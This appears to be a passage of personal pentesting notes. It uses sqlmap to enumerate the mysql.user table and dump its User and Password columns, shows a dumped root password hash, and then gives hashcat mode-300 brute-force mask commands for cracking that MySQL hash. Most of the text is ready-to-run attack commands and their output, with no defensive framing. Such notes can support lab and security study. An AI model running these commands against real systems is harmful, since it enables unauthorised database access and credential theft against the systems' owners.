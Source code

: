 find the columns on the specific table, on the specific database

`sqlmap -u ${URL} --batch -D mysql -T user --columns`

dump the selected values

`sqlmap -u ${URL} --batch -D mysql -T user -C User,Password --dump`

```bash
Database: mysql
Table: user
[1 entry]
+--------+-------------------------------------------+
| User   | Password                                  |
+--------+-------------------------------------------+
| root   | *4D4660866D8BB729116A6BBE5913441937DF1432 |
+--------+-------------------------------------------+
```

---

## hashcat

root password is using old MySQL hash encryption

hashcat using GPUs to crack hashes

<https://www.sans.org/blog/password-hash-cracking-amazon-web-services/>

Good detailed explanation here <https://youtu.be/IwthyvvcqzY> - `Crack MySQL - SHA1 / SHA2 passwords using the Hashcat tool`

hashcat help

```bash
hashcat --help
```

benchmark module 300, `MySQL4.1/MySQL5`, Database Server

```bash
hashcat -m 300 -b
```

other sample of using hashcat command

```bash
hashcat -O -m 300 -a 3 --increment --increment-min 1 --increment-max 12 hash-this.txt ?a?a?a?a?a?a?a?a?a?a?a?a

hashcat -O -m 300 -a 3 --increment --increment-min 1 --increment-max 12 hash-this.txt ?d?d?d?d?d?d?d?d?d?d?d?d

hashcat -O -m 300 -a 3 --increment --increment-min 1 --increment-max 12 hash-this.txt ?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d?l?u?d

hashcat -O -m 300 -a 3 hash-this.txt


```
